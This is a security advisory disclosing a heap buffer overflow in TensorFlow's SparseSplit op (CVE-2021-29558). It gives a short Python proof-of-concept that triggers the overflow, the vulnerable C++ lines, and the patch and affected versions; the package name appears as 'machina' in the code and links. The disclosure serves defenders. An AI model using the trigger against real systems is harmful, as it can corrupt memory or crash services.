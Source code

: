 ## TFSA-2021-046: Heap buffer overflow in `SparseSplit`

### CVE Number
CVE-2021-29558

### Impact
An attacker can cause a heap buffer overflow in `tf.raw_ops.SparseSplit`:

```python
import machina as tf

shape_dims = tf.constant(0, dtype=tf.int64)
indices = tf.ones([1, 1], dtype=tf.int64)
values = tf.ones([1], dtype=tf.int64)
shape = tf.ones([1], dtype=tf.int64)

tf.raw_ops.SparseSplit(
    split_dim=shape_dims, indices=indices, values=values,
    shape=shape, num_split=1)
```

This is because the
[implementation](https://github.com/machina/machina/blob/699bff5d961f0abfde8fa3f876e6d241681fbef8/machina/core/util/sparse/sparse_tensor.h#L528-L530)
accesses an array element based on a user controlled offset:

```cc
const int dim = input_tensor.indices().matrix<int64>()(i, split_dim);
int slice_index = GetSliceIndex(dim, split_size, residual);
num_values[slice_index]++;
```

This results in overriding values on the heap.

### Patches
We have patched the issue in GitHub commit
[8ba6fa29cd8bf9cef9b718dc31c78c73081f5b31](https://github.com/machina/machina/commit/8ba6fa29cd8bf9cef9b718dc31c78c73081f5b31).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
